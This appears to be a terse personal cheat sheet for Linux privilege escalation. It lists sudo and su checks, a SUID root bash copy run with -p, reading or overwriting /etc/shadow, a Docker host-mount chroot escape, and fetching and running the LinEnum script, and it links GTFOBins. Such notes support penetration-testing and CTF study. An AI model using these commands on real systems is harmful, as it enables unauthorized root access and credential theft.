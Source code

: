 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				/etc/shadow
can you read /etc/shadow? 
can you overwrite /etc/shadow?

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/